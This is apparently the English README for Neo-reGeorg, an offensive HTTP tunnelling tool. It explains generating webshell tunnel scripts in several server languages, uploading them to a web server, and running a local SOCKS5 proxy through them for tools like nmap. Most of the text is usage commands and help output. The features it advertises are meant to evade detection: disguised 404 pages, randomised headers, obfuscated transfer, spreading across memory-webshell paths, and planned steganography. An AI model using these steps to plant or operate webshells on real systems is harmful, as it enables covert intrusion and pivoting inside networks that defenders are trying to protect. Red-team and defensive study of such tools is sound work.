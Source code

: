 Neo-reGeorg
=========

[简体中文](README.md)　｜　[English](README-en.md)

**Neo-reGeorg** is a project designed to actively restructure [reGeorg](https://github.com/sensepost/reGeorg) with the aim of:

* Improve tunnel connection security
* Improve usability and avoid feature detection
* Improve the confidentiality of transmission content
* Solve the existing problems of reGeorg and fix some small bugs



Features
----

* Transfer content through out-of-order base64 encryption
* GET request response can be customized (such as masquerading 404 pages)
* HTTP Headers instructions are randomly generated to avoid feature detection
* HTTP Headers can be customized
* Custom HTTP response code
* Multiple URLs random requests
* Server-node DNS resolution
* Compatible with python2 / python3
* High compatibility of the server environment
* Refer to [pivotnacci](https://github.com/blackarrowsec/pivotnacci) to implement a single `SESSION` to create multiple TCP connections to deal with some load balancing scenarios


Version
----

2.0.0 - [Change Log](CHANGELOG.md)


Dependencies
-----------

* [**requests**] - https://github.com/kennethreitz/requests




Basic Usage
--------------

* **Step 1.**
Set the password to generate tunnel server.(aspx|ashx|jsp|jspx|php) and upload it to the web server.
```ruby
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp

```

* **Step 2.**
Use `neoreg.py` to connect to the web server and create a socks5 proxy locally.
```ruby
$ python3 neoreg.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [DEBUG]
  Starting socks server [127.0.0.1:1080]
  Tunnel at:
    http://xx/tunnel.php
+------------------------------------------------------------------------+
```

   Note that if your tool, such as `nmap` does not support socks5 proxy, please use [proxychains](https://github.com/rofl0r/proxychains-ng) 




Advanced Usage
--------------

1. Support the generated server, by default directly requesting and responding to the specified page content (such as a disguised 404 page)
```ruby
$ python neoreg.py generate -k <you_password> --file 404.html
$ python neoreg.py -k <you_password> -u <server_url> --skip
```

2. For example, the server WEB needs to set the proxy to access
```ruby
$ python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. To set `Authorization`, there are also custom `Header` or `Cookie` content.
```ruby
$ python neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"
```

4. Need to disperse requests, upload to multiple paths, such as memory-webshell
```ruby
$ python neoreg.py -k <you_password> -u <url_1> -u <url_2> -u <url_3> ...
```

* For more information on performance and stability parameters, refer to -h help information
```ruby
# Generate server-side scripts
$ python neoreg.py generate -h
	usage: neoreg.py [-h] -k KEY [-o DIR] [-f FILE] [-c CODE] [--read-buff Bytes]

	Generate neoreg webshell

	optional arguments:
	  -h, --help            show this help message and exit
	  -k KEY, --key KEY     Specify connection key.
	  -o DIR, --outdir DIR  Output directory.
	  -f FILE, --file FILE  Camouflage html page file
	  -c CODE, --httpcode CODE
							Specify HTTP response code. (default: 200)
	  --read-buff Bytes     Remote read buffer. (default: 513)

# Connection server
$ python neoreg.py -h
	usage: neoreg.py [-h] -u URI -k KEY [-l IP] [-p PORT] [-s] [-H LINE] [-c LINE]
					 [-x LINE] [--local-dns] [--read-buff Bytes]
					 [--read-interval MS] [--max-threads N] [-v]

	Socks server for Neoreg HTTP(s) tunneller. DEBUG MODE: -k
	(debug_all|debug_base64|debug_headers_key|debug_headers_values)

	optional arguments:
	  -h, --help            show this help message and exit
	  -u URI, --url URI     The url containing the tunnel script
	  -k KEY, --key KEY     Specify connection key
	  -l IP, --listen-on IP
							The default listening address.(default: 127.0.0.1)
	  -p PORT, --listen-port PORT
							The default listening port.(default: 1080)
	  -s, --skip            Skip usability testing
	  -H LINE, --header LINE
							Pass custom header LINE to server
	  -c LINE, --cookie LINE
							Custom init cookies
	  -x LINE, --proxy LINE
							proto://host[:port] Use proxy on given port
	  --local-dns           Local read buffer, max data to be sent per
							POST.(default: 2048 max: 2600)
	  --read-buff Bytes     Local read buffer, max data to be sent per
							POST.(default: 2048 max: 2600)
	  --read-interval MS    Read data interval in milliseconds.(default: 100)
	  --max-threads N       Proxy max threads.(default: 1000)
	  -v                    Increase verbosity level (use -vv or more for greater
							effect)
```



TODO
----

* HTTP body steganography

* Transfer Target field steganography



License
----

GPL 3.0
